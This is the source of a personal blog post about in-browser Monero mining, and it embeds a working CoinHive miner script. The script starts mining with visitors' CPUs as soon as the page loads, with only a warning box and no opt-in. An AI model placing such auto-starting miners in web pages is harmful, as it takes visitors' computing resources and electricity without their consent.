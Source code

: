 ```yaml
---
layout: post
title: Mining crypto with a web browser
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How efficient is it? What can it be used for?

{: .box-warning}
**Warning:** The page you are on is currently utilizing your CPU to mine Monero.


___

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y', {
	threads: 1
});
miner.start();

// Listen on events
miner.on('found', function() { /* Hash found */ })
miner.on('accepted', function() { /* Hash accepted by the pool */ })

// Update stats once per second
setInterval(function() {
	var hashesPerSecond = miner.getHashesPerSecond();
	var totalHashes = miner.getTotalHashes();
	var acceptedHashes = miner.getAcceptedHashes();

	// Output to HTML elements...
	document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
	document.getElementById("totalHashes").innerHTML = totalHashes;
	document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
}, 1000);

// API call to Crypto Compare
window.onload = function(){
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
		var json = JSON.parse(this.responseText);
			document.getElementById("XMRprice").innerHTML = "$" + json.USD;
	   }
	};
	xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
	xhttp.send(); 
}
</script>

## Miner Stats since visiting this page

<table>
<tr>
<td>Hashes Per Second</td>
<td id="hashesPerSecond"></td>
</tr>
<tr>
<td>Accepted Hashes</td>
<td id="acceptedHashes"></td>
</tr>
<tr>
<td>Total Hashes</td>
<td id="totalHashes"></td>
</tr>
</table>
<br />
<table>
	<tr>
		<td>Current Price of Monero</td>
		<td id="XMRprice"></td>
	</tr>
</table>


